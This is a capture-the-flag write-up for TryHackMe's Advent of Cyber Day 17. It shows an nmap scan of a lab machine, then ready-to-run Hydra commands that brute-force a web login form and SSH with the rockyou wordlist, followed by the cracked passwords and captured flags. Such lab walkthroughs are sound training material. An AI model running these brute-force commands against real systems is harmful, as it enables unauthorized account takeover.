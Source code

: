 ```yaml
---
title: "Advent of Cyber Day 17 Hydra-ha-ha-haa"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 17 Hydra-ha-ha-haa"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

You suspect Elf Molly is communicating with the Christmas Monster. Compromise her accounts by brute forcing them!

Use Hydra to brute force Elf Molly's password. Use the rockyou.txt password list, which can be found [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

Supporting materials can be found [here](https://blog.tryhackme.com/hydra/).

**This machine will take between 3-4 minutes to boot.**

### Setup

```bash
nmap -A -vv 10.10.19.144
```

```bash
22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 87:da:af:c1:ff:c5:03:11:54:80:41:d4:82:8a:99:d7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHO4ktM9/27P2QGFraBKPJS3H+OXCHRWwn2XlNF47So47uW/XhvJOBdKpGSGfd5xsBLUerN7O3YCbwYmvggkas6D4GN0lrtyJacdk1wGViCBZwVd/j1lf3EVmRpO8ZMLOgEo9ew8hkG5P6S+P4xnW8FG7aEcRO6EF1Mq64r+GG2VK/wE6IwbPBs6ILG/SC4FGPy1rSNvDNRPgUouMeQqFjTXNEX0cWv8JFsfNogreS05wAOzjyne3d2Ow7RyvSm10zP9GWUXRYmkpspSSGruAZ8STLH8G0l3Z1kaQSNl5tqtMAhONnsuMh18MZCZxOpUfiD7cT20/ZEF8lD9eYSV/h
|   256 2d:04:f7:b2:22:74:9a:32:a6:66:f8:50:0c:5c:c5:5a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHB+zsySVDiAxyh1OOC6IbA0FryCdBCXKOwBoqoLDkHC9+RA+8rwI4TVTrMuFsw77IKz67tgN56q8fO4BhVBMEU=
|   256 87:2c:2e:a9:2c:28:a2:6c:b5:96:ff:58:cb:15:45:b6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEW/CLFOcCBY09DHMT3eByXDXR1IysHYF2ecZVVf9PEt

80/tcp open http syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Christmas Challenge
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![https://imgur.com/6d5GxKt.png](https://imgur.com/6d5GxKt.png)

[Hydra - Brute Force HTTP(S)](https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/)

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.19.144 http-post-form "/login:username=^USER^&password=^PASS^&Login=Login:Your username or password is incorrect." -v
```

```bash
[80][http-post-form] host: 10.10.19.144   login: "molly"   password: "joyness1994"
```

### #1 Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

![https://imgur.com/yynj6n6.png](https://imgur.com/yynj6n6.png)

```bash
"THM{2673a7dd116de68e85c48ec0b1f2612e}"
```

### #2 Use Hydra to bruteforce molly's SSH password. What is flag 2?

```bash
kali@kali:~$ hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.19.144

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-08 18:32:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.19.144:22/

[22][ssh] host: 10.10.19.144   login: "molly"   password: "butterfly"
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-08 18:32:10
```

```bash
ssh molly@10.10.19.144
password: "butterfly"
```

```bash
molly@ip-10-10-19-144:~$ ls
flag2.txt
molly@ip-10-10-19-144:~$ cat flag2.txt
"THM{c8eeb0468febbadea859baeb33b2541b}"
```
